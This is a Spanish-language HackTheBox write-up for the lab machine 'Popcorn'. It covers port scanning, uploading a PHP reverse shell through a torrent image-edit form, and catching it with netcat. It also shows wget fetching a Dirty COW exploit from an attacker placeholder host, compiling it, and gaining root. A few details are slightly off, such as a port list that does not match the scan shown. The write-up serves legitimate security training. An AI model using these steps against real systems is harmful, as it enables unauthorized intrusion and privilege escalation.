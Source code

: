```yaml
---
title: Popcorn
date: '2024-06-30'
lastmod: '2023-08-05'
tags: ['Labs', 'HackTheBox', 'Web', 'File Upload', 'Dirty Cow', 'Compile Exploit in C']
draft: false
summary: 'Popcorn, aunque no es demasiado complicado, contiene bastante contenido y puede resultar difícil para algunos usuarios localizar el vector de ataque adecuado al principio. Esta máquina se centra principalmente en diferentes métodos de explotación web. '
images: ['/static/images/htb/popcorn/popcorn.png']
---
```


![Portada](/static/images/htb/popcorn/Popcorn.png)

# [MIRA EL VIDEO TUTORIAL](https://youtu.be/xYD4cLwgwDw)

<TOCInline toc={props.toc} exclude="MIRA EL VIDEO TUTORIAL" />

## Reconocimiento

### Ping

Primero, verificamos que estamos en la misma red que la máquina víctima enviando un paquete de datos a la dirección IP 10.10.10.6 usando el comando `ping`.

```js
ping -c 4 10.10.10.6
```

- `-c` : Número de paquetes de solicitud de eco ICMP (Protocolo de Mensajes de Control de Internet) que se enviarán.

![Ping](/static/images/htb/popcorn/1.png)

### Nmap

A continuación, realizamos el escaneo de puertos.

```js
  nmap -p- --open 10.10.10.6 -Pn
```

- `-p-` : Escanea todos los puertos.
- `--open` : Reporta solo los puertos que se encuentran abiertos.
- `-Pn` : Realiza el escaneo incluso si el dispositivo no responde a los pings.

![Ping](/static/images/htb/popcorn/2.png)

Cuando obtenemos la lista de puertos abiertos en la máquina víctima, realizamos otro escaneo pero solo en aquellos reportados como abiertos por Nmap, incluyendo las siguientes opciones:

- `-sC` : Activa el escaneo utilizando scripts de servicio y enumeración predeterminados. Los scripts se ejecutan contra los puertos abiertos para recopilar información adicional sobre los servicios en ejecución.
- `-sV` : Realiza la detección de versiones de los servicios encontrados en los puertos abiertos. Nmap intenta determinar la versión y el tipo de servicio utilizando varios métodos, como enviar solicitudes específicas y comparar las respuestas recibidas.
- `-p` : Especifica los puertos a escanear. En este caso, se escanean los puertos 21 (FTP), 22 (SSH), 139 (NetBIOS/SMB), 445 (SMB) y 3632 (distccd).
- `-Pn` : Instruye a Nmap a realizar el escaneo incluso si el dispositivo no responde a los pings. Esto puede ser útil cuando el dispositivo tiene configuraciones de firewall que bloquean los paquetes de solicitud de eco ICMP.

```js
  nmap -sC -sV -p22,80 10.10.10.6 -Pn
```

![Ping](/static/images/htb/popcorn/3.png)

### Puertos abiertos

| Puertos abiertos | Servicio | Versión             |
| ---------------- | -------- | ------------------- |
| **_22/tcp_**     | ssh      | OpenSSH 5.1p1       |
| **_80/tcp_**     | http     | Apache httpd 2.2.12 |

## Enumeracion

### Puerto 80 - http

Realizamos fuzzing de directorios con ffuf.

- `-w`: La lista de palabras que usaremos para el fuzzing.
- `-u`: La URL contra la cual realizaremos el fuzzing.

![Ping](/static/images/htb/popcorn/4.png)

Y encontramos tres directorios: `test`, `torrent` y `rename`. El más útil en esta parte es `torrent`.

Mientras enumeraba la página, encontré un falso positivo de SQLi en el formulario, lo que me permitió volcar toda la base de datos, pero sin encontrar nada útil.

![Ping](/static/images/htb/popcorn/5.png)

![Ping](/static/images/htb/popcorn/6.png)

![Ping](/static/images/htb/popcorn/7.png)

Hay una zona de carga de archivos, pero necesito registrarme para poder verla.
![Ping](/static/images/htb/popcorn/8.png)

Necesitamos subir un archivo torrent para que luego podamos editar la imagen que nos permitirá acceder al servidor.

![Ping](/static/images/htb/popcorn/9.png)

![Ping](/static/images/htb/popcorn/10.png)

Tenemos la opción de editar la foto del torrent que subimos.
![Ping](/static/images/htb/popcorn/11.png)

![Ping](/static/images/htb/popcorn/12.png)

Elegimos cualquier foto e interceptamos la solicitud para editarla.
![Ping](/static/images/htb/popcorn/13.png)

En este caso, utilizo la shell de pentest monkey.
![Ping](/static/images/htb/popcorn/14.png)

Elimino los metadatos de la foto y pego la shell, cambiando la IP y el puerto.
La IP es la de la VPN, y el puerto es donde recibiremos la shell. En la shell, configuro el puerto 4444 para escuchar con:

```js
nc -lvnp 4444
```

![Ping](/static/images/htb/popcorn/15.png)

![Ping](/static/images/htb/popcorn/16.png)

Después de subir la shell, actualizamos la página y la abrimos en otra pestaña, luego vamos a `/torrent/upload` para activarla.
![Ping](/static/images/htb/popcorn/29.png)

![Ping](/static/images/htb/popcorn/30.png)

Hacemos clic en nuestro archivo .php y recibiremos la shell en el puerto que está escuchando.
![Ping](/static/images/htb/popcorn/17.png)

Con acceso al servidor, encontramos el `user.txt` ubicado en el directorio del usuario George.
![Ping](/static/images/htb/popcorn/18.png)

![Ping](/static/images/htb/popcorn/19.png)

## Root

### Escalada de privilegios

Comenzando con el reconocimiento, encontramos la versión del kernel, que es vulnerable a [Dirty Cow](https://en.wikipedia.org/wiki/Dirty_COW).

```js
uname - r
```

El comando `uname -r` se utiliza en sistemas operativos basados en Unix y Linux para mostrar la versión del [kernel](<https://en.wikipedia.org/wiki/Kernel_(operating_system)#:~:text=The%20kernel%20is%20a%20computer,mitigating%20conflicts%20between%20different%20processes.>) en uso.
![Ping](/static/images/htb/popcorn/22.png)

![Ping](/static/images/htb/popcorn/23.png)

![Ping](/static/images/htb/popcorn/24.png)

Descargamos el exploit a nuestra máquina y comenzamos un servidor con python, mientras que desde la máquina víctima lo descargamos con `wget`.

```js
wget http://IP_VPN:PORT/exploit.c
```

![Ping](/static/images/htb/popcorn/25.png)

![Ping](/static/images/htb/popcorn/26.png)

Para compilar un exploit en C:

- `gcc`: Es el compilador GNU para el lenguaje de programación C. Se utiliza para compilar código fuente en C y convertirlo en un archivo ejecutable.

- `-pthread`: Esta opción le dice al compilador que use la biblioteca de hilos POSIX (pthreads). Esto es útil si el programa utiliza hilos para realizar tareas concurrentes.

- `dirty.c`: Este es el archivo que se va a compilar.

- `-o dirty`: Esta opción le dice al compilador el nombre del archivo ejecutable de salida.

- `-lcrypt`: Esta opción le dice al compilador que enlace el programa con la biblioteca `libcrypt`, que proporciona funciones de cifrado y descifrado.

Entonces, el comando completo `gcc -pthread dirty.c -o dirty -lcrypt` compila el archivo `dirty.c` utilizando la biblioteca de hilos POSIX y la biblioteca de cifrado, produciendo un ejecutable llamado `dirty`. Después de eso, lo ejecutamos. Agregamos una contraseña al usuario `firefart` que se crea, y luego presionamos `CTRL + C` porque se cuelga.
![Ping](/static/images/htb/popcorn/27.png)

Cambiamos al usuario `firefart` y obtenemos privilegios de root.
![Ping](/static/images/htb/popcorn/28.png)
